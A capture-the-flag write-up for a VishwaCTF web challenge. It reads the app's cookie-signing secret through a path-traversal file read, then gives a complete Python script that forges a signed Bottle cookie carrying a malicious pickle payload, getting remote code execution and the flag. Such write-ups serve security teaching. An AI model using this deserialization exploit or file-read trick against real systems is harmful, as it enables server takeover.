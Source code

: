 # Prompt Injection
`Difficulty: Expert`

DESCRIPTION
I have this collection of poems and whenever I am happy I have a look at them, hope you like it.

Author: Samarth Kamble

FLAG FORMAT: `VishwaCTF{}`

## Solution:

This challenge is similar to one of the challenges I found on the Internet, From there I get an idea to solve the problem

from this route (`/show?id=/app/config/secret.py`) I got the secret that is used to sign cookies

![alt text](../../assets/image.png)
`Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"`
<br><br>

To sign i went to this route and this is what i get

![alt text](../../assets/image-1.png)

from this i get to know that the is used use admin access

so to perform all these steps i got python script 
in which I entered the key and the website URL with route

```
key: trrrrrrrrrrrrryyyyyyyyyyyharddddddddd
url: https://ch681045157935.ch.eng.run/sign
```
<br>


```python
import os, hmac, hashlib, base64, pickle, requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))

session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch681045157935.ch.eng.run/sign", cookies={"name": cookie})
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))

```

after runnig this script we get the flag

### Flag:
`VishwaCTF{W3lcome_t0_p03m_p0ck3t}`

